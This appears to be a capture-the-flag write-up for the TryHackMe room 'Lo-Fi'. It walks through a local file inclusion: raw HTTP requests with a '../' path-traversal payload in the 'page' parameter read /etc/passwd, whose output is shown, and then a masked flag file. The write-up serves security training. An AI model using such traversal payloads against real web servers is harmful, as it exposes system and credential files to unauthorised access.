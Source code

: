 ```yaml
---
title: "Lo-Fi"
date: 2025-01-20
image: /assets/img/tryhackme/Lofi/Lofi_image.jpg
description: Writeup of the TryHackMe-CTF Lo-Fi
categories: [Tryhackme, Easy]
tags: [linux, web, file-inclusion]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lo-Fi</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Want to hear some lo-fi beats, to relax or study to? We've got you covered!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/lofi">https://tryhackme.com/r/room/lofi</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Lo-Fi.  

## Challenge
The description gives us two hints what we need to do. 
1. Navigate to the following url http://MACHINE_IP and find the flag in the root of the filesystem.
2. Check out similar content on TryHackMe: <a href="https://tryhackme.com/r/room/filepathtraversal">LFI Path Traversal</a>

This seems to be a Path Traversal vulnerability in the Website. Start up Burpsuite and open the website in the browser.
From here we need to find parameters which we could manipulate.
After simply interacting with the website we can see the usage of the parameter `page` which loads `php` files:

![command execution page](/assets/img/tryhackme/Lofi/thm_lofi_1.jpg){: width="1200" height="195" .w-75 .normal}

Let's try inject the simple payload `../../../../../../../../../../../etc/passwd` in the request:
```http
GET /?page=../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
The result confirm the payload is working:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            root:x:0:0:root:/root:/bin/bash
            daemon:x:1:1:daemon:/usr/sbin:/bin/sh
            bin:x:2:2:bin:/bin:/bin/sh
            sys:x:3:3:sys:/dev:/bin/sh
            sync:x:4:65534:sync:/bin:/bin/sync
            games:x:5:60:games:/usr/games:/bin/sh
            man:x:6:12:man:/var/cache/man:/bin/sh
            lp:x:7:7:lp:/var/spool/lpd:/bin/sh
            mail:x:8:8:mail:/var/mail:/bin/sh
            news:x:9:9:news:/var/spool/news:/bin/sh
            uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
            proxy:x:13:13:proxy:/bin:/bin/sh
            www-data:x:33:33:www-data:/var/www:/bin/sh
            backup:x:34:34:backup:/var/backups:/bin/sh
            list:x:38:38:Mailing List Manager:/var/list:/bin/sh
            irc:x:39:39:ircd:/var/run/ircd:/bin/sh
            gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
            nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
            libuuid:x:100:101::/var/lib/libuuid:/bin/sh
          </div>
        </div>
```
From here we can try to search the flag:
```http
GET /?page=../../../../../../../../../../../flag.txt HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
found the flag:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            flag{*********** removed ***********}
          </div>
        </div>
```
solved! :)
